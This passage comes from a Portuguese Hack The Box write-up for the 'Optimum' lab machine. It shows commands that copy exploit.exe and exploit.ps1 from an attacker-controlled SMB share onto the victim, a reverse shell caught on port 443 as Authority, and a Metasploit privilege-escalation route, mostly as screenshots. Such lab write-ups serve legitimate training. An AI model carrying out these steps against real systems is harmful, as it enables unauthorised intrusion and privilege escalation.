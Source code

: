 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_smb.png)

Após isso realizar a cópia do arquivos *exploit.exe* para o Desktop da máquina Optimum, pasta a qual foi colocada no dentro do exploit retirado do Exploit-DB

> copy \\10.10.16.119\arquivos\exploit.exe C:\\Users\\kostas\\Desktop

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_down.png)

Agora copiamos o exploit para dentro da máquina, utilizando a mesma ideia

> copy \\10.10.16.119\arquivos\exploit.ps1 C:\\Users\\kostas\\Desktop

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_down2.png)

Executamos o exploit (com o listener aberto na porta 443) e recebemos a conexão reversa de Authority

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_root2.png)

Pegamos a flag de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_root3.png)


## Método 02 -> Através do Metasploit Framework

Pesquisamos pelo exploit no msfconsole

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter0.png)

Setamos as opções no exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter1.png)

Rodamos e ganhamos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter2.png)

### Escalando Privilégio pelo Metasploit Framework

Pesquisamos pelo módulo do Local Exploit Suggester

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter3.png)

Setamos as opções nele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter4.png)

Rodamos o módulo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_meter5.png)
